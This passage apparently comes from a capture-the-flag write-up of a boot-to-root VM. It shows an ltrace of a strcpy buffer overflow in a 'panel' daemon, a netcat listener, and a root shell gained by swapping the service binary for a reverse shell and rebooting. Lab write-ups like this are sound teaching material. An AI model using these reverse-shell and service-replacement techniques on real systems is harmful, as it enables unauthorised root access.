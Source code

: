 Now we play the waiting game...
Nothing happened right away, but I will try to connect to the demon service on 31337 to see if that will trigger it.
Nope, that didnt do it.
Hmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm....

## Demon Daemon Buffer Overflow

It does not appear that my shell code is going to execute on its own accord.
And after playing around with the panel application on my local x64 Kali, I did discover a buffer overflow vulnerability after sending a few thousand A's as the input.

```
[pid 32404] recv(4, 0x7ffe6fcaf090, 4096, 0
)     = 4096
[pid 32404] strcpy(0x7ffe6fcaf010, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 0x7ffe6fcaf010
[pid 32404] strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...) = 4097
[pid 32404] send(4, 0x7ffe6fcaf010, 4097, 0)     = 4097
[pid 32404] --- SIGSEGV (Segmentation fault) ---
[pid 32404] +++ killed by SIGSEGV +++
[pid 32378] --- SIGCHLD (Child exited) ---
[pid 32378] <... wait resumed> )                 = 32404
[pid 32378] fork( <unfinished ...>
[pid 32444] <... fork resumed> )                 = 0
[pid 32378] <... fork resumed> )                 = 32444
[pid 32378] wait(0 <unfinished ...>
[pid 32444] socket(2, 1, 0)                      = 3
[pid 32444] setsockopt(3, 1, 2, 0x7ffe6fcb00cc)  = 0
[pid 32444] htons(0x7a69, 1, 2, 0x7fa1b1130c6a)  = 0x697a
[pid 32444] memset(0x7ffe6fcb00b8, '\0', 8)      = 0x7ffe6fcb00b8
[pid 32444] bind(3, 0x7ffe6fcb00b0, 16, 0x7ffe6fcb00b0) = 0
[pid 32444] listen(3, 5, 16, 0x7fa1b1130797)     = 0
[pid 32444] accept(3, 0x7ffe6fcb00a0, 0x7ffe6fcb009c, 0x7ffe6fcb00a0
```

Time to roll up the old sleeves and develop a buffer overflow reverse shell for the **WIN**... Evan's Debugger (edb) to the rescue!

Hmmm, turns out I have never done x64 reverse engineering before and the fork in this process is making things a bit difficult with EDB for some reason. Going to look at using some alternative tools and try again.

## SIDE NOTE:  Finishing via cheating

After replacing the panel service with the reverse shell, I decided to "cheat" and just restart the VM.
This triggered the panel service to be reloaded and triggered the reverse shell from root.
Of course this is not how the box was meant to be solved.  The intended approach is to exploit the buffer overflow in panel service.

```
root@kali:~# nc -nlvp 444
listening on [any] 444 ...
connect to [192.168.225.129] from (UNKNOWN) [192.168.225.130] 35144
id
uid=0(root) gid=0(root) groups=0(root)
cd /root/
ls
root.txt
cat root.txt

 ____  _       _          _     
|  _ \(_)_ __ | | ___   _( )___ 
| |_) | | '_ \| |/ / | | |// __|
|  __/| | | | |   <| |_| | \__ \
|_|   |_|_| |_|_|\_\\__, | |___/
```